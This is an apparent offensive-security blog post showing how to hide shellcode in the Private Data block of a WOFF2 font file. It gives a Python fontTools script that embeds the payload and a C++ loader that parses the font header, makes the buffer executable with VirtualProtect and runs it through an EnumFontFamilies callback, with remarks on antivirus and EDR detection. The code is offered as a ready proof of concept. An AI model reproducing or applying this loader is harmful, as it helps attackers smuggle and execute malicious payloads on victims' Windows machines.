

We will see how the WOFF2 format can be abused to host shellcode and how the WinAPI, through its font-handling functions, can be leveraged to trigger its execution.

## Overview of WOFF2

WOFF2 is a file format proposed by Google in 2013 to replace the WOFF1 format. It provides better compression of font data for use in CSS.

- Supports OpenType and TrueType (SFNT) specifications 
- Uses the Brotli compression algorithm
- Primarily developed for the Web to enable faster page loading
### WOFF2 structure

WOFF2 is composed of several blocks. A header that lets you navigate the file format. The other blocks contain the data necessary to define the font. The block that interests us is Private Data. This is an optional block that allows the font author to include whatever information they want; it can contain ASCII, Unicode text, or raw data, provided those data do not interfere with font loading.


We will use this block to hide our shellcode.
## Generating the WOFF2 file with the shellcode

First, it should be known that WOFF2 is similar to the SFNT format structure, the format used by TrueType or OpenType. The difference is that WOFF2 data are compressed.

To generate our WOFF2 file we therefore need to start from a TTF or OTF file, add the private data block with our shellcode, then convert it to a WOFF2 file by compressing the font data.

To do this we will use Python and the fontTools library.

```python
import argparse
from fontTools.ttLib import TTFont
from fontTools.ttLib.woff2 import WOFF2FlavorData

def add_private_block(input_file, output_file, private_data):
    font = TTFont(input_file, recalcBBoxes=False, recalcTimestamp=False)

    font.flavor = 'woff2'

    if font.flavorData is None:
        font.flavorData = WOFF2FlavorData()
        font.flavorData.privData = private_data

    font.save(output_file)

    print(f"[i] Private Data Block added to {output_file}")
```

We define a function `add_private_block` that takes as input a font file (`input_file`), an output file name (`output_file`) and the private data block (`private_data`) that will contain our shellcode. The font is loaded with the `TTFont` class. With `font.flavor` we force the file format to WOFF2. If no private data block is already present, the code creates a `WOFF2FlavorData` object and inserts the specified data into its `privData` attribute. Then we save the generated WOFF2 file.

The full script is available on my GitHub: LINK
## Loader Part

The final part consists of writing a WOFF2 file parser to retrieve our shellcode and then using the WinAPI to execute our shellcode.

The language choice here is C++, the language I am most comfortable with — feel free to re-adapt the loader in your preferred language.

### Parsing the WOFF2 Header

To parse the WOFF2 file we must refer to its Header because it contains all the information necessary to navigate the file. The header specification is available on the W3C site:


With this information we can describe a C++ structure representing our Header:

```c++
#pragma pack(push, 1)

struct WOFF2_Header {
  uint32_t signature;
  uint32_t flavor;
  uint32_t length;
  uint16_t numTables;
  uint16_t reserved;
  uint32_t totalSfntSize;
  uint32_t totalCompressedSize;
  uint16_t majorVersion;
  uint16_t minorVersion;
  uint32_t metaOffset;
  uint32_t metaLength;
  uint32_t metaOrigLength;
  uint32_t privOffset;
  uint32_t privLength;
};

#pragma pack(pop)
```

The `pragma` directives are used to avoid potential padding that would shift the data read into our Header.

Here is the function that reads the private data block to extract the shellcode:

```c++
BOOL read_private_data_block(string &woff2_file) {
  WOFF2_Header header;
  ifstream file(woff2_file, ios::binary | ios::ate);

  if (!file) {
    throw runtime_error("[!] Impossible to open the WOFF2 file");
    return FALSE;
  }

  streamsize size = file.tellg();

  file.seekg(0, ios::beg);

  if (!file.read(reinterpret_cast<char*>(&header), sizeof(WOFF2_Header))) {
    throw runtime_error("[!] Impossible to read the Header");
    return FALSE;
  }

  if (ntohl(header.signature) != 0x774f4632) {
    cerr << "[!] Bad magic\n";
    return FALSE;
  }

  file.seekg(ntohl(header.privOffset), ios::beg);
  if(!file) {
    throw runtime_error("[!] Invalid Offset");
    return FALSE;
  }

  private_data_block.resize(ntohl(header.privLength));

  if(!file.read(reinterpret_cast<char*>(private_data_block.data()), (int)ntohl(header.privLength))) {
    throw runtime_error("[!] Impossible to read private data block");
    return FALSE;
  }

  file.close();

  return TRUE;
}
```

## Execute the shellcode

To execute our shellcode we will use the `EnumFontFamilies` function which simply lists the fonts available on a machine.

```c++
int EnumFontFamiliesA(
  [in] HDC           hdc,
  [in] LPCSTR        lpLogfont,
  [in] FONTENUMPROCA lpProc,
  [in] LPARAM        lParam
);
```

It takes the following parameters:

- `hdc` → a handle to the device context, which can be obtained via `GetDC`. 
- `lpLogFont` → a pointer to a string specifying the font family to enumerate. Here we will use `NULL`, because we want to enumerate all fonts.
- `lpProc` → a pointer to a callback function which will be executed by `EnumFontFamilies`; this callback will be responsible for executing our shellcode.
- `lParam` → a pointer to data that will be passed to the callback function.

Here is the callback function that will be used to execute our shellcode:

```c++
BOOL CALLBACK EnumFamCallBack(LPLOGFONT lplf, LPNEWTEXTMETRIC lpntm, DWORD FontType, LPVOID aFontCount) {
    DWORD oldProtect;

    cout << "[+] Enter Callback" << endl;

    if (VirtualProtect(private_data_block.data(), private_data_block.size(), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        auto entry = (void(*) ())private_data_block.data();

        entry();

        cout << "[+] Trigger received. Execute Payload..." << endl;
    }

    return TRUE;
}
```

This loader is a POC so I do not guarantee it can bypass AV/EDR. As you can see I use the PAGE_EXECUTE_READWRITE permissions which are not recommended for a functional loader because they are directly detected by security solutions.

You can find the complete loader code on my GitHub: LINK
## Demonstration

Generation of the WOFF2 file armed with the shellcode:  

Here the woff2 file is in the same directory as the loader:



Thank you for reading! I hope this POC can be useful to you!

Sources:  
[https://w3c.github.io/woff/woff2/](https://w3c.github.io/woff/woff2/)  
[https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-enumfontfamiliesa](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-enumfontfamiliesa)  
[https://github.com/fonttools/fonttools](https://github.com/fonttools/fonttools)  
[https://learn.microsoft.com/fr-fr/cpp/preprocessor/pack?view=msvc-170](https://learn.microsoft.com/fr-fr/cpp/preprocessor/pack?view=msvc-170)
